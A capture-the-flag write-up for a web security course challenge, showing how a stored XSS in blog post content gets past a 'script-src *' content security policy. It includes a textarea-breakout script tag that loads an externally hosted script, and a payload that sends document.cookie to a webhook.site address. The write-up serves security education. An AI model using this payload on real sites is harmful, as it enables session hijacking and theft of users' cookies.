 # Challenge `Read my lips: No more scripts!` Writeup

- Vulnerability:
    - XSS attack

- Where:
    - Blogpost creation content

- Impact:
    - Allows to steal remote user's cookie

## Steps to reproduce

This challenge is simmilar to the one before however by trying the exploits challenges we get this error: `Either the 'unsafe-inline' keyword, a hash, or a nonce is required to enable inline execution` which means that a CSP policy is set to prevent any inline scripts. However, it also includes `Content Security Policy directive: "script-src *"`which means that we can load external scripts.

Since we can load external scripts, we should create a javascript file and host it somewhere so that it can be loaded later. However, by coping the payload from the previous challenge and hosting it on a [pastebin](https://pastebin.com/), we get a `Cross-Origin Read Blocking (CORB)` warning meaning that the script must be hosted in the same origin as the server running. We can do this by using [Técnico's personal page](https://web.tecnico.ulisboa.pt). 

To do so, we should ssh to sigma (`ssh <istid>@sigma.tecnico.ulisboa.pt`) and create a script.js file under the /web directory. This file will contain the previous script: `location='https://webhook.site/<unique-id>/'+document.cookie`. Then, in the input area we should input `</textarea><script src="https://web.tecnico.ulisboa.pt/<istid>/script.js"></script>` and then click on the `Update post and send it for admin review` button and we will get the flag as before.
